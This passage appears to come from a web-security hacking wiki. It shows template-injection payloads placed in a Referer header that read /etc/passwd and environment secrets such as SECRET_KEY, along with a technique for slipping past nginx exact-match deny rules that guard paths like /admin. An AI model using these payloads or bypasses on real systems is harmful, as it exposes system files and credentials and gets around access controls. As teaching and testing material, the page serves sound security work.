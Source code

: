 With a payload like the following, you can read arbitrary files:

<pre class="language-http" data-title="Request"><code class="lang-http">GET / HTTP/1.1
<strong>Referer: {{readFile "etc/passwd"}}
</strong></code></pre>

{% code title="Response" %}
```http
HTTP/1.1 200 OK

You came from root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
```
{% endcode %}

In case your character set is limited (eg. you cannot use quotes), it is possible to read strings from other variables such as `.Req.URL.RawQuery` or an index of `.Req.Header.`:

<pre class="language-http" data-title="Request 1"><code class="lang-http">GET / HTTP/1.1
<strong>Referer: {{env .Req.URL.RawQuery}}
</strong></code></pre>

<pre class="language-http" data-title="Request 2"><code class="lang-http">GET / HTTP/1.1
<strong>Referer: {{env (index .Req.Header.X 0)}}
</strong><strong>X: SECRET_KEY
</strong></code></pre>

As an alternative to quotes, you can also use backtics (`` ` ``) to create inline strings.

## WAF Bypass

Some generic techniques for reverse proxies that act as Web Application Firewalls to block certain dangerous requests. This often includes blocking attack-like syntax such as `' OR 1=1;--` or marking certain paths as "internal only".

### Trim Paths

If it is trying to block a certain path from being accessed, such as `/admin`, you may be able to obfuscate it so that the reverse proxy doesn't recognize it anymore while the application still does.

In [#nginx](reverse-proxies.md#nginx "mention"), for example, if you make a `location = ...` rule the normalized path needs to exactly match the given location for the rule to trigger. By adding any byte to the end of the path, it won't be recognized anymore. Most applications still understand some special bytes as suffixes. The research below explores this in various different servers:

{% embed url="https://blog.bugport.net/exploiting-http-parsers-inconsistencies" %}
Various examples of how differences in parsing between proxy/server can cause bypasses
{% endembed %}

{% code title="nginx.conf" %}
```nginx
location = /admin {
    deny all;
}
```
{% endcode %}
